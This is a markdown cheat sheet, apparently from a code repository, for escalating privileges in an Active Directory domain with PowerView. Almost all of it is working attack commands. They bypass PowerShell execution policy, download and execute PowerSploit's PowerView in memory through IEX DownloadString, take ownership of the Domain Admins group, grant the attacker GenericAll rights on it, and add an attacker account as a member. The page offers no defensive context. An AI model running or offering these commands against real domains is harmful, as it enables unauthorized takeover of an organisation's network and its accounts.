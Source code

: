 # Power view cheat sheet

## Commands
## Note: Domain = `bank.local`, User = `goodboy`

```bash
powershell -ep bypass

Import-Module .\PowerView.ps1

Set-DomainObjectOwner -Identity 'Domain Admins' -OwnerIdentity 'goodboy'

Add-DomainObjectAcl -Rights 'All' -TargetIdentity "Domain Admins" -PrincipalIdentity "goodboy"

net group "domain admins" goodboy /add /domain
```

## Import the AD module (requires RSAT or AD PowerShell tools)
```bash
Import-Module ActiveDirectory
```
## Now try the command again

```bash
$acl = Get-Acl "AD:\CN=Domain Admins,CN=Users,DC=bank,DC=com"
$groupDN = "LDAP://CN=Domain Admins,CN=Users,DC=bank,DC=com"
$acl = [System.DirectoryServices.DirectoryEntry]::new($groupDN).ObjectSecurity
```

- Create the AD: drive if missing
```bash
New-PSDrive -Name AD -PSProvider ActiveDirectory -Root "" -Server "bank.com"
```
- Now get ACL

```bash
$acl = Get-Acl "AD:\CN=Domain Admins,CN=Users,DC=bank,DC=com"
```

- Take ownership

```bash
$group = [ADSI]"LDAP://CN=Domain Admins,CN=Users,DC=bank,DC=local"

$group.psbase.ObjectSecurity.SetOwner([System.Security.Principal.NTAccount]("bank\goodboy"))

$group.psbase.CommitChanges()
```
- Add self to group
```bash
$group.Add("LDAP://CN=goodboy,CN=Users,DC=bank,DC=local")
```

# Key Explanations:

## Permission Why Needed

- Modify owner	
- Modify permissions	
- Write properties	

### 1. with ✔ Modify permissions

```bash
IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1")

Get-Command -Module PowerView
```
- Note: (If blocked by execution policy, run: Set-ExecutionPolicy Bypass -Scope Process -Force first)

- Verify if 'bb2' has WriteDACL on Domain Admins
```bash
Get-DomainObjectAcl -Identity "Domain Admins" | Where-Object { $_.SecurityIdentifier -eq (Get-DomainUser "bb2").SID } | Select-Object ActiveDirectoryRights
```
- Add GenericAll permission
```bash
Add-DomainObjectAcl -TargetIdentity "Domain Admins" -PrincipalIdentity "bb2" -Rights All -Verbose
```
- Add your account to the group
```bash
Add-DomainGroupMember -Identity "Domain Admins" -Members "bb2" -Verbose
```
- Verify
```bash
Get-DomainGroupMember -Identity "Domain Admins" | Select-Object MemberName
```

### 2. with permission  - write all properties ✔ is  only enabled

### if powerview  fails
```bash
$Group = [ADSI]"LDAP://CN=Domain Admins,CN=Users,DC=bank,DC=local"
$Group.Add("LDAP://CN=master,CN=Users,DC=bank,DC=local")
```
### 3. with permissions - ✔ modify owner is only enabled
```bash
IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1")
```
-or downloade the script and run by import
```bash
powershell -ep bypass
Import-Module .\powerview.ps1

Get-Command Set-DomainObjectOwner, Add-DomainObjectAcl

Set-ExecutionPolicy Bypass -Scope Process -Force
```

- 1. Take ownership
```bash
Set-DomainObjectOwner -Identity "Domain Admins" -OwnerIdentity "usermad" -Verbose
```
- 2. Grant yourself GenericAll
```bash
Add-DomainObjectAcl -TargetIdentity "Domain Admins" -PrincipalIdentity "usermad" -Rights All -Verbose
```

- 3. Add to group
```bash
Add-DomainGroupMember -Identity "Domain Admins" -Members "usermad" -Verbose
```